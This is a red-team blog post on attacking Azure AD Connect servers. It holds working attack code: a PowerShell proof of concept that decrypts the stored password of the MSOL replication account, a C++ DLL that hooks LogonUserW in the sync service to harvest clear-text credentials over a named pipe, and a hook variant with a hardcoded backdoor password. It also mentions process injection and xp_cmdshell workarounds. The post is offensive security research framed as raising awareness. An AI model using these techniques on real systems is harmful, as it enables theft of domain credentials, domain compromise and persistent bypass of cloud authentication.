

Azure AD Connect for Red Teamers - XPN InfoSec Blog

 [« Back to home](https://blog.xpnsec.com/)

#   [Azure AD Connect for Red Teamers](https://blog.xpnsec.com/azuread-connect-for-redteam/)

Posted on    2019-02-18   Tagged in   [redteam](https://blog.xpnsec.com/tags/redteam/), [active directory](https://blog.xpnsec.com/tags/active-directory/), [azuread](https://blog.xpnsec.com/tags/azuread/)

With clients increasingly relying on cloud services from Azure, one of the technologies that has been my radar for a while is Azure AD. For those who have not had the opportunity to work with this, the concept is simple, by extending authentication beyond on-prem Active Directory, users can authenticate with their AD credentials against Microsoft services such as Azure, Office365, Sharepoint, and [hundreds](https://docs.microsoft.com/en-us/azure/active-directory/saas-apps/tutorial-list) of third party services which support Azure AD.

If we review the available documentation, Microsoft show a number of ways in which Azure AD can be configured to integrate with existing Active Directory deployments. The first, and arguably the most interesting is Password Hash Synchronisation (PHS), which uploads user accounts and password hashes from Active Directory into Azure. The second method is Pass-through Authentication (PTA) which allows Azure to forwarded authentication requests onto on-prem AD rather than relying on uploading hashes. Finally we have Federated Authentication, which is the traditional ADFS deployment which we have seen numerous times.

Now of course some of these descriptions should get your spidey sense tingling, so in this post we will explore just how red teamers can leverage Azure AD (or more specifically, Azure AD Connect) to meet their objectives.

Before I continue I should point out that this post is not about exploiting some cool 0day. It is about raising awareness of some of the attacks possible if an attacker is able to reach a server running Azure AD Connect. If you are looking for tips on securing your Azure AD Connect deployment, Microsoft has done a brilliant job of documenting not only configuration and hardening recommendations, but also a lot about the internals of how Azure AD's options [work under the hood](https://docs.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta-security-deep-dive).

## Setting up our lab

Before we start to play around with Azure AD, we need a lab to simulate our attacks. To create this, we will use:

1. A VM running Windows Server 2016
2. An Azure account with the Global administrator role assigned within Azure AD

3. [Azure AD Connect](https://www.microsoft.com/en-us/download/details.aspx?id=47594)

First you'll need to set up an account in Azure AD with Global administrator privileges, which is easily done via the management portal:

Once we have an account created, we will need to install the Azure AD Connect application on a server with access to the domain. Azure AD Connect is the service installed within the Active Directory environment. It is responsible for syncing and communicating with Azure AD and is what the majority of this post will focus on.

To speed up the installation process within our lab we will use the "Express Settings" option during the Azure AD Connect installation which defaults to Password Hash Synchronisation:

With the installation of Azure AD Connect complete, you should get a notification like this:

And with that, let's start digging into some of the internals, starting with PHS.

## PHS... smells like DCSync

To begin our analysis of PHS, we should look at one of the assemblies responsible for handling the synchronisation of password hashes, `Microsoft.Online.PasswordSynchronization.dll`. This assembly can be found within the default installation path of Azure AD Sync `C:\Program Files\Microsoft Azure AD Sync\Bin`.

Hunting around the classes and methods exposed, there are a few interesting references:

As you are likely aware, DRS (Directory Replication Services) prefixes a number of API's which facilitate the replication of objects between domain controllers. DRS is also used by another of our favourite tools to recover password hashes... [Mimikatz](https://github.com/gentilkiwi/mimikatz/blob/master/modules/rpc/kull_m_rpc_drsr.c).

So what we are actually seeing here is just how Azure AD Connect is able to retrieve data from Active Directory to forward it onto Azure AD. So what does this mean to us? Well as we know, to perform a DCSync via Mimikatz, an account must possess the "Replicating Directory Changes" permission within AD. Referring back to Active Directory, we can see that a new user is created during the installation of Azure AD Connect with the username `MSOL_[HEX]`. After quickly reviewing its permissions, we see what we would expect of an account tasked with replicating AD:

So how do we go about gaining access to this account? The first thing that we may consider is simply nabbing the token from the Azure AD Connect service or injecting into the service with Cobalt Strike... Well Microsoft have already thought of this, and the service responsible for DRS (Microsoft Azure AD Sync) actually runs as `NT SERVICE\ADSync`, so we're going to have a work a bit harder to gain those DCSync privileges.

Now by default when deploying the connector a new database is created on the host using SQL Server's LOCALDB. To view information on the running instance, we can use the installed `SqlLocalDb.exe` tool:

The database supports the Azure AD Sync service by storing metadata and configuration data for the service. Searching we can see a table named `mms_management_agent` which contains a number of fields including `private_configuration_xml`. The XML within this field holds details regarding the `MSOL` user:

As you will see however, the password is omitted from the XML returned. The encrypted password is actually stored within another field, `encrypted_configuration`. Looking through the handling of this encrypted data within the connector service, we see a number of references to an assembly of `C:\Program Files\Microsoft Azure AD Sync\Binn\mcrypt.dll` which is responsible for key management and the decryption of this data:

To decrypt the `encrypted_configuration` value I created a quick POC which will retrieve the keying material from the LocalDB instance before passing it to the `mcrypt.dll` assembly to decrypt:

|     |     |
| --- | --- |
| 1   | Write-Host  "AD Connect Sync Credential Extract POC (@_xpn_)`n" |
| 2   |     |
| 3   | $client  =  new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync" |
| 4   | $client.Open() |
| 5   | $cmd  =  $client.CreateCommand() |
| 6   | $cmd.CommandText  =  "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration" |
| 7   | $reader  =  $cmd.ExecuteReader() |
| 8   | $reader.Read() \|  Out-Null |
| 9   | $key_id  =  $reader.GetInt32(0) |
| 10  | $instance_id  =  $reader.GetGuid(1) |
| 11  | $entropy  =  $reader.GetGuid(2) |
| 12  | $reader.Close() |
| 13  |     |
| 14  | $cmd  =  $client.CreateCommand() |
| 15  | $cmd.CommandText  =  "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'" |
| 16  | $reader  =  $cmd.ExecuteReader() |
| 17  | $reader.Read() \|  Out-Null |
| 18  | $config  =  $reader.GetString(0) |
| 19  | $crypted  =  $reader.GetString(1) |
| 20  | $reader.Close() |
| 21  |     |
| 22  | add-type  -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll' |
| 23  | $km  =  New-Object  -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager |
| 24  | $km.LoadKeySet($entropy,  $instance_id,  $key_id) |
| 25  | $key  =  $null |
| 26  | $km.GetActiveCredentialKey([ref]$key) |
| 27  | $key2  =  $null |
| 28  | $km.GetKey(1, [ref]$key2) |
| 29  | $decrypted  =  $null |
| 30  | $key2.DecryptBase64ToString($crypted, [ref]$decrypted) |
| 31  |     |
| 32  | $domain  =  select-xml  -Content $config  -XPath "//parameter[@name='forest-login-domain']"  \| select @{Name  =  'Domain'; Expression  = {$_.node.InnerXML}} |
| 33  | $username  =  select-xml  -Content $config  -XPath "//parameter[@name='forest-login-user']"  \| select @{Name  =  'Username'; Expression  = {$_.node.InnerXML}} |
| 34  | $password  =  select-xml  -Content $decrypted  -XPath "//attribute"  \| select @{Name  =  'Password'; Expression  = {$_.node.InnerText}} |
| 35  |     |
| 36  | Write-Host ("Domain: "  +  $domain.Domain) |
| 37  | Write-Host ("Username: "  +  $username.Username) |
| 38  | Write-Host ("Password: "  +  $password.Password) |

 [view raw](https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545/raw/d45633c954ee3d40be1bff82648750f516cd3b80/azuread_decrypt_msol.ps1)  [azuread_decrypt_msol.ps1](https://gist.github.com/xpn/0dc393e944d8733e3c63023968583545#file-azuread_decrypt_msol-ps1) hosted with ❤ by [GitHub](https://github.com/)

And when executed, the decrypted password for the MSOL account will be revealed:

So what are the requirements to complete this exfiltration of credentials? Well we will need to have access to the LocalDB (if configured to use this DB), which by default holds the following security configuration:

This means that if you are able to compromise a server containing the Azure AD Connect service, and gain access to either the ADSyncAdmins or local Administrators groups, what you have is the ability to retrieve the credentials for an account capable of performing a DCSync:

**Update 12/04/2020** - Due to changes in the way which Azure AD Sync now stores its keys, access to the service account (ADSync by default) or the Credential Manager of the service account is now required to decrypt the configuration. One way to work around this using tools such as Cobalt Strike is to simply inject into a process running under the ADSync process and continue with the above POC. Alternatively we can take advantage of the fact that the LocalDB instance is in-fact running as the "ADSync" user, meaning that a simple bit of `xp_cmdshell` magic is all we need to resume our decryption method. A new POC to leverage this can be found [here](https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c).

## Pass Through Authentication

With the idea of password hashes being synced outside of an organisation being unacceptable to some, Azure AD also supports Pass Through Authentication (PTA). This option allows Azure AD to forward authentication requests onto the Azure AD Connect service via Azure ServiceBus, essentially transferring responsibility to Active Directory.

To explore this a bit further, let's reconfigure our lab to use Pass Through Authentication:

Once this change has pushed out to Azure, what we have is a configuration which allows users authenticating via Azure AD to have their credentials validated against an internal Domain Controller. This is nice compromise for customers who are looking to allow SSO but do not want to upload their entire AD database into the cloud.

There is something interesting with PTA however, and that is how authentication credentials are sent to the connector for validation. Let's take a look at what is happening under the hood.

The first thing that we can see are a number of methods which handle credential validation:

As we start to dig a bit further, we see that these methods actually wrap the Win32 API `LogonUserW` via pinvoke:

And if we attach a debugger, add a breakpoint on this method, and attempt to authenticate to Azure AD, we will see this:

This means that when a user enters their password via Azure AD with PTA configured, their credentials are being passed un-hashed onto the connector which then validates them against Active Directory. So what if we compromise a server responsible for Azure AD Connect? Well this gives us a good position to start syphoning off clear-text AD credentials each time someone tries to authenticate via Azure AD.

So just how do we go about grabbing data out of the connector during an engagement?

## Hooking Azure AD Connect

As we saw above, although the bulk of the logic takes place in .NET, the actual authentication call to validate credentials passed from Azure AD is made using the unmanaged Win32 API `LogonUserW`. This gives us a nice place to inject some code and redirect calls into a function that we control.

To do this we will need to make use of the `SeDebugPrivilege` to grab a handle to the service process (as this is running under the `NT SERVICE\ADSync`). Typically `SeDebugPrivilege` is only available to local administrators, meaning that you will need to gain local admin access to the server to modify the running process.

Before we add our hook, we need to take a look at just how `LogonUserW` works to ensure that we can restore the call to a stable state once our code has been executed. Reviewing `advapi32.dll` in IDA, we see that `LogonUser` is actually just a wrapper around `LogonUserExExW`:

Ideally we don't want to be having to support differences between Windows versions by attempting to return execution back to this function, so going back to the connector's use of the API call we can see that all it actually cares about is if the authentication passes or fails. This allows us to leverage any other API which implements the same validation (with the caveat that the call doesn't also invoke `LogonUserW`). One API function which matches this requirement is `LogonUserExW`.

This means that we can do something like this:
1. Inject a DLL into the Azure AD Sync process.

2. From within the injected DLL, patch the LogonUserW function to jump to our hook.

3. When our hook is invoked, parse and store the credentials.
4. Forward the authentication request on to LogonUserExW.
5. Return the result.

I won't go into the DLL injection in too much detail as this is covered widely within other blog posts, however the DLL we will be injecting will look like this:

|     |     |
| --- | --- |
| 1   | #include  <windows.h> |
| 2   | #include  <stdio.h> |
| 3   |     |
| 4   | // Simple ASM trampoline |
| 5   | // mov r11, 0x4142434445464748 |
| 6   | // jmp r11 |
| 7   | unsigned  char trampoline[] = { 0x49, 0xbb, 0x48, 0x47, 0x46, 0x45, 0x44, 0x43, 0x42, 0x41, 0x41, 0xff, 0xe3 }; |
| 8   |     |
| 9   | BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken); |
| 10  |     |
| 11  | HANDLE pipeHandle = INVALID_HANDLE_VALUE; |
| 12  |     |
| 13  | void  Start(void) { |
| 14  | DWORD oldProtect; |
| 15  |     |
| 16  | // Connect to our pipe which will be used to pass credentials out of the connector |
| 17  | while (pipeHandle == INVALID_HANDLE_VALUE) { |
| 18  | pipeHandle = CreateFileA("\\\\.\\pipe\\azureadpipe", GENERIC_READ \| GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL); |
| 19  | Sleep(500); |
| 20  | }   |
| 21  |     |
| 22  | void *LogonUserWAddr = GetProcAddress(LoadLibraryA("advapi32.dll"), "LogonUserW"); |
| 23  | if (LogonUserWAddr == NULL) { |
| 24  | // Should never happen, but just incase |
| 25  | return; |
| 26  | }   |
| 27  |     |
| 28  | // Update page protection so we can inject our trampoline |
| 29  | VirtualProtect(LogonUserWAddr, 0x1000, PAGE_EXECUTE_READWRITE, &oldProtect); |
| 30  |     |
| 31  | // Add our JMP addr for our hook |
| 32  | *(void **)(trampoline + 2) = &LogonUserWHook; |
| 33  |     |
| 34  | // Copy over our trampoline |
| 35  | memcpy(LogonUserWAddr, trampoline, sizeof(trampoline)); |
| 36  |     |
| 37  | // Restore previous page protection so Dom doesn't shout |
| 38  | VirtualProtect(LogonUserWAddr, 0x1000, oldProtect, &oldProtect); |
| 39  | }   |
| 40  |     |
| 41  | // The hook we trampoline into from the beginning of LogonUserW |
| 42  | // Will invoke LogonUserExW when complete, or return a status ourselves |
| 43  | BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken) { |
| 44  | PSID logonSID; |
| 45  | void *profileBuffer = (void *)0; |
| 46  | DWORD profileLength; |
| 47  | QUOTA_LIMITS quota; |
| 48  | bool ret; |
| 49  | WCHAR pipeBuffer[1024]; |
| 50  | DWORD bytesWritten; |
| 51  |     |
| 52  | swprintf_s(pipeBuffer, sizeof(pipeBuffer) / 2, L"%s\\%s - %s", domain, username, password); |
| 53  | WriteFile(pipeHandle, pipeBuffer, sizeof(pipeBuffer), &bytesWritten, NULL); |
| 54  |     |
| 55  | // Forward request to LogonUserExW and return result |
| 56  | ret = LogonUserExW(username, domain, password, logonType, logonProvider, hToken, &logonSID, &profileBuffer, &profileLength, &quota); |
| 57  | return ret; |
| 58  | }   |
| 59  |     |
| 60  | BOOL APIENTRY DllMain( HMODULE hModule, |
| 61  | DWORD ul_reason_for_call, |
| 62  | LPVOID lpReserved |
| 63  | )   |
| 64  | {   |
| 65  |  switch (ul_reason_for_call) |
| 66  | {   |
| 67  |  case DLL_PROCESS_ATTACH: |
| 68  | Start(); |
| 69  |  case DLL_THREAD_ATTACH: |
| 70  |  case DLL_THREAD_DETACH: |
| 71  |  case DLL_PROCESS_DETACH: |
| 72  |  break; |
| 73  | }   |
| 74  |  return  TRUE; |
| 75  | }   |
| 76  |     |

 [view raw](https://gist.github.com/xpn/79a7f966b9dffd0ccf3505787f8060d7/raw/35a5bda6cf13e0966db86e63919bc3b1f9207262/azuread_hook_dll.cpp)  [azuread_hook_dll.cpp](https://gist.github.com/xpn/79a7f966b9dffd0ccf3505787f8060d7#file-azuread_hook_dll-cpp) hosted with ❤ by [GitHub](https://github.com/)

And when executed, we can see that credentials are now harvested each time a user authenticates via Azure AD:

[(L)](https://www.youtube.com/watch?v=ed90a5B_Rqk)

## Backdoor LogonUser

OK, so we have seen how to retrieve credentials, but what about if we actually want to gain access to an Azure AD supported service? Well at this stage we control `LogonUserW`, and more importantly, we control its response, so how about we insert a backdoor to provide us access.

Within our DLL code, let's add a simple check for a hardcoded password:

	BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken) {
		PSID logonSID;
		void *profileBuffer = (void *)0;
		DWORD profileLength;
		QUOTA_LIMITS quota;
		bool ret;
		WCHAR pipeBuffer[1024];
		DWORD bytesWritten;

		swprintf_s(pipeBuffer, sizeof(pipeBuffer) / 2, L"%s\\%s - %s", domain, username, password);
		WriteFile(pipeHandle, pipeBuffer, sizeof(pipeBuffer), &bytesWritten, NULL);

		// Backdoor password
		if (wcscmp(password, L"ComplexBackdoorPassword") == 0) {
			// If password matches, grant access
			return true;
		}

		// Forward request to LogonUserExW and return result
		ret = LogonUserExW(username, domain, password, logonType, logonProvider, hToken, &logonSID, &profileBuffer, &profileLength, &quota);
		return ret;
	}

Obviously you can implement a backdoor as complex or as simple as you want, but let's see how this looks when attempting to authenticate against O365:

[(L)](https://www.youtube.com/watch?v=UxKEQ9tIiLs)

So what are the takeaways from this? Well first of all, it means for us as red teamers, targeting Azure AD Connect can help to expedite the domain admin chase. Further, if the objectives of the assessment are within Azure or another services integrated with Azure AD, we have the potential to work around authentication for any account which passes an authentication request via PTA.

That being said, there is a lot of configuration and alternate options available when deploying Azure AD, so I'm keen to see any further research on just how red teamers can leverage this service.

##